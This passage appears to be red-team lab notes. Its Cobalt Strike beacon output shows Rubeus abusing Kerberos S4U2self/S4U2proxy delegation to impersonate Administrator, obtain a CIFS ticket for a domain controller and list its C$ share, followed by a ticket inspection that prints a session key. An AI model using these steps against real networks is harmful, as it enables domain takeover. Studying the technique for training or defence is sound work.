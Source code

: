 ``````beacon

[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Building S4U2self request for: 'SRV2$@edu.evil.corp'
[+] Sequence number is: 1421721239
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'SRV2$@edu.evil.corp'
[*] base64(ticket.kirbi):

 doIFfj [...snip...] WLTIk

[*] Impersonating user 'Administrator' to target SPN 'eventlog/dc-2.edu.evil.corp'
[*]   Final tickets will be for the alternate services 'cifs'
[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Building S4U2proxy request for service: 'eventlog/dc-2.edu.evil.corp'
[+] Sequence number is: 1070349348
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi) for SPN 'cifs/dc-2.edu.evil.corp':

 doIGvD [...snip...] ljLmlv

[+] Ticket successfully imported!

beacon> ls \\dc-2.edu.evil.corp\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/10/2022 04:11:30   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot
 ``````

## Check stored TGT
Use `Rubeus describe` to show information about the ticket.
``````beacon
execute-assembly Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  WKSTN2$
  ServiceRealm             :  edu.evil.corp
  UserName                 :  patrick
  UserRealm                :  edu.evil.corp
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=
``````
